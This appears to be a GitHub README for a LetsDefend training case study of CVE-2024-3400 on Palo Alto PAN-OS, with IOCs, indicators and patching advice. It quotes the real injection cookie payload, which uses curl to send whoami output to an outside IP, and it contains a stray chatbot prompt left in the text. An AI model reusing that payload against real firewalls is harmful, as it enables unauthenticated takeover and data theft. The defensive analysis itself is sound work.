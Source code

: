 # letsdefend-cve2024-3400-case-study
Detection, analysis, and response strategies for CVE-2024-3400 exploitation attempts targeting Palo Alto PAN-OS GlobalProtect portals. Includes IOCs, exploit patterns, and mitigation guidance.


# CVE-2024-3400 Incident Investigation

# 🔍 Overview

This repository contains a detailed investigation and threat analysis of **CVE-2024-3400**, a critical unauthenticated command injection vulnerability affecting **Palo Alto Networks PAN-OS** software, specifically targeting the GlobalProtect portal.

On April 18, 2024, exploitation activity was detected against an internal PAN-OS firewall using the vulnerable `/global-protect/login.esp` endpoint. The attacker used a crafted `SESSID` cookie containing a backtick-executed `curl` command to reach a remote C2 server hosted at `144.172.79.92` (Miami, Florida). The exploit payload leveraged `${IFS}` to bypass simple filters and used PAN-OS’s telemetry directory to stage malicious activity. The firewall responded with a `200 OK`, indicating that the payload was likely executed successfully.

## 📄 Incident Summary

- **Event ID**: 249  
- **Detection Rule**: SOC274 – PAN-OS Command Injection Exploitation  
- **Event Time**: April 18, 2024, 03:09 AM UTC  
- **Hostname**: `PA-Firewall-01`  
- **Destination IP**: `172.16.17.139`  
- **Source IP**: `144.172.79.92`  
- **Request Method**: `POST`  
- **Endpoint**: `/global-protect/login.esp`  
- **Cookie Payload**: `SESSID=./../../../opt/panlogs/tmp/device_telemetry/hour/aaacurl${IFS}144.172.79.92:4444?user=$(whoami)`

- **Malicious Hashes**:  
- **SHA256**: `3de2a4392b8715bad070b2ae12243f166ead37830f7c6d24e778985927f9caac`
- **MD5**: `0c1554888ce9ed0da1583dbdf7b31651`
- **Malicious Script**: `update.py` (executed using `/usr/bin/python3`)

## 🧠 Behavioral Indicators

- Abuse of `SESSID` for command injection
- Use of `${IFS}` for evasion
- Payload staging in `/opt/panlogs/tmp/device_telemetry`
- Involvement of the `dt_send` process post-exploitation
- Network callback to attacker's IP on port `4444`

## 🚨 Impact

- Remote unauthenticated command execution on a core security appliance
- Possible download and execution of attacker-controlled Python payload
- Abuse of PAN-OS internal telemetry mechanisms for staging or exfiltration
- Allowed traffic from a known malicious IP

## ✅ Recommended Response Actions

1. **Patch PAN-OS** to versions: `10.2.9-h1`, `11.0.4-h1`, or `11.1.2-h3`
2. **Block Malicious IP**: `144.172.79.92`
3. **Search for Indicators of Compromise (IOCs)** in logs and file systems
4. **Inspect telemetry directories** for suspicious files or execution behavior
5. **Isolate affected systems** and perform a full forensic analysis

## 📁 Contents

- `logs/`: Parsed and raw detection logs
- `ioc/`: File hashes and IPs associated with the attack
- `analysis/`: Deep dive into exploit behavior and process tracing
- `report/`: Summary and Images of the logs and codes of my investigations

---

## What is CVE-2024-3400
CVE-2024-3400 refers to a critical vulnerability in Palo Alto Networks PAN-OS, specifically affecting GlobalProtect gateways. Here's a breakdown of what is publicly known about it:

## 🔥 CVE-2024-3400 – Palo Alto PAN-OS Command Injection Vulnerability
CVSS Score: 10.0 (Critical)

Published: April 2024

Affected Products: PAN-OS 10.2, 11.0, and 11.1 when GlobalProtect is enabled.

Exploitation: Confirmed in the wild (zero-day)

Vulnerability Type: Unauthenticated command injection

## 🧠 What’s the Risk?
CVE-2024-3400 allows unauthenticated attackers to execute arbitrary commands on the firewall’s operating system. This essentially gives full control over affected devices without needing credentials — a serious breach point for any enterprise relying on Palo Alto firewalls.

## ⚠️ Conditions Required for Exploitation:
GlobalProtect gateway must be enabled.

Specific PAN-OS versions (10.2.x, 11.0.x, 11.1.x).

Exploitable via the internet if not behind additional security layers.

## 🔎 What Attackers Are Doing:
Sending crafted requests to exploit the injection flaw.

Deploying remote shells or downloading second-stage payloads.

Observed behavior includes:

Command execution via crafted URLs

Persistence mechanisms

Lateral movement within networks

## 🛡️ Mitigation & Recommendations:
Patch Immediately: Palo Alto released fixes; upgrade to non-vulnerable versions (e.g., 10.2.9-h1, 11.0.4-h1, 11.1.2-h3 or later).

Check for Indicators of Compromise (IOCs) such as suspicious processes, outbound connections, or unusual CLI history.

Use tools like Shodan or asset inventories to find vulnerable appliances.

#🛠️ How to Investigate (e.g., via LetsDefend or SIEM):
Look for external IPs accessing GlobalProtect without valid authentication.

Check for suspicious command execution in logs (show system processes, cat /etc/passwd, etc.).

Monitor firewall behavior and alert on anomalous outbound connections.

Would you like help turning this into a post, incident report, or investigation summary (e.g., for LinkedIn or LetsDefend)?












> This repository serves both as an internal investigation report and an educational resource for defenders seeking to understand real-world exploitation of PAN-OS vulnerabilities. Contributions and additional observations are welcome.

